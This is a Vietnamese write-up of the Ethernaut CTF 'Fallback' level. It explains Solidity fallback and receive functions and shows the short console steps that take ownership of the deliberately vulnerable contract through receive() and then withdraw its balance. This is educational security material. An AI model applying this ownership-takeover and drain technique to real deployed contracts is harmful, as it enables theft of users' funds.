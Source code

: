 ```yaml
---
title: "[Ethernaut CTF] Level 1: Fallback"
date: 2023-09-30 17:45:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel1.svg
---
```

# Level 1: Fallback 
## ★☆☆☆☆
Có vẻ challenge này sẽ có gì đó liên quan đến fallback function =))  
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
## Fallback function là gì ?
Đây là một hàm đặc biệt trong smart contract, nó là một external function không tên và được sử dụng khi contract nhận ether, nó không có tham số và được gọi khi có ai đó gọi hàm không có trong contract. 
> Note: Từ solidity version 0.6.0 về sau, fallback function được tách ra làm 2 là ``fallback`` và ``receive()``  

**Receive function**: Một contract cần có ít nhất 1 hàm receive và nó sử dụng cú pháp ```receive() external payable { ... }```. Tương tự như fallback, receive không có tham số cũng không trả về gì cả. Nó được thiết kế để handle incoming ether mà không có data truyền vào. 
>Nếu không có hàm receive thì nó sẽ rơi vào fallback được khai báo là payable. Nếu không có cả hàm receive lẫn hàm fallback với payable, contract sẽ không thể nhận eth và bắn ra exception.  

>Từ các version về sau, ``receive()`` thường được ưu tiên vì tính rõ ràng hơn so với ``fallback()``
### Example
```solidity
contract special
{
    string public fall;
 
    // This fallback function
    // will keep all the Ether
    fallback() external payable{
        fall="Fallback function is executed!";
    }

}
```
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.6.0 <0.9.0;

// This contract keeps all Ether sent to it with no way
// to get it back.
contract Sink {
    event Received(address, uint);
    receive() external payable {
        emit Received(msg.sender, msg.value);
    }
}
```

## Solution
Nhiệm vụ của chúng ta là chiếm quyền owner và withraw hết balance của contract.  
Để ý kỹ thì trong code ta sẽ nhận ra ngay hàm ``receive()`` như một fallback function
```solidity
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
Để đáp ứng require, ta cần trở thành contributior trước  
```javascript
await contract.contribute({value:toWei(0.0001)})
```
Trigger receive function bằng cách send cho nó ether
```javascript
await contract.send(1)
```
Check owner và withdraw thôi
```javascript
await contract.owner()

```
```javascript
await contract.withdraw()

```
## Reference
https://docs.soliditylang.org/en/v0.8.17/contracts.html#special-functions


